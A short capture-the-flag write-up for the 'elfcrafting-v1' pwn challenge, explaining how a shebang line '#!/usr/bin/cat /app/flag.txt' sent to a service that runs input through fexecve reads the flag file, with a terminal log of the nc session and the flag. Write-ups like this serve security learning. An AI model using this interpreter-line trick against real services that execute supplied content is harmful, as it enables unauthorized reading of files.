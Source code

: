 # elfcrafting-v1

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/164e221d-58e8-404b-ad5c-dc02b5fdbd72)

see Dockerfile, chall files in this folder

## solution

we know the flag is in `/app/flag.txt`, because of the Dockerfile

next, we take a look at the chall binary in binja

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/3f0cef33-74d3-43e0-8f2a-d1b0d3aebc0b)

we can see that it does `fexecve`. i wonder what that is?

if we look at [docs](https://man7.org/linux/man-pages/man3/fexecve.3.html), we see that it is the same as execve but with a file descriptor, so reading from memory

for execve, we see [here](https://man7.org/linux/man-pages/man2/execve.2.html)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/d8c9c2dd-6322-4646-97ff-2fd7513d1f0f)

hmm. what if we use an interpreter script instead?

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/9f9d1816-7edd-49a7-8002-43fdff8d8c93)

it looks like we can run any executable, so we input `#!/usr/bin/cat /app/flag.txt`

```
quasar@quasar098:~$ nc amt.rs 31178
I'm sure you all enjoy doing shellcode golf problems.
But have you ever tried ELF golfing?
Have fun!
#!/usr/bin/cat /app/flag.txt
read 29 bytes from stdin
wrote 29 bytes to file
amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}
/usr/bin/cat: /dev/fd/3: No such file or directory
```

we get the flag

this was the easiest pwn chall i've ever seen, and probably one of the only ones i can complete
